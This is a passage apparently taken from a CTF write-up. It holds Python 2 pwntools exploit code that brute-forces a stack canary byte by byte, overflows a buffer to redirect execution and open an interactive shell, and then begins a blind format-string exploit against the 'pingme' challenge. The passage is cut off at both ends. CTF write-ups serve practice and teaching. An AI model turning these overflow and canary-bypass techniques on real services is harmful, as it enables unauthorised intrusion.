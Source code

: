 ```
def sn(data):
    return io.send(data)
def info(string):
    return log.info(string)
def dehex(s):
    return s.replace(' ','').decode('hex')
def limu8(x):
    return c_uint8(x).value
def limu16(x):
    return c_uint16(x).value
def limu32(x):
    return c_uint32(x).value
# define interactive functions here
def send(x):
    ru('Welcome!n')
    sn(x)
    return
# define exploit function here
def pwn():
    canary = 'x00'
    while len(canary) != 8:
        for i in xrange(256):
            b = chr(i)
            payload = 104*'A' + canary + b
            io = makeio()
            try:
                print 'sending...', i
                send(payload)
                line = ru('n')
                if 'Message' in line:
                    io.close()
                    canary += b
                    break
            except Exception, e:
                print e
                io.close()
                continue
    info("canary = " + hex(u64(canary)))
    io = makeio()
    payload = 104*'A' + canary + p64(0x12345678) + p64(0x400BC6)
    send(payload)
    io.interactive()
    return
if __name__ == '__main__':
    pwn()
Pwn 300 - pingme
Blind Fsb， 先把binary dump下来，然后直接改printf got表。
脚本：
#!/usr/bin/env python2
# -*- coding:utf-8 -*-
from pwn import *
from ctypes import *
import os, sys
io = None
# switches
DEBUG = 0
LOCAL = 0
VERBOSE = 1
# modify this
def makeio():
    global io
    if LOCAL:
        io = process('xxx')
```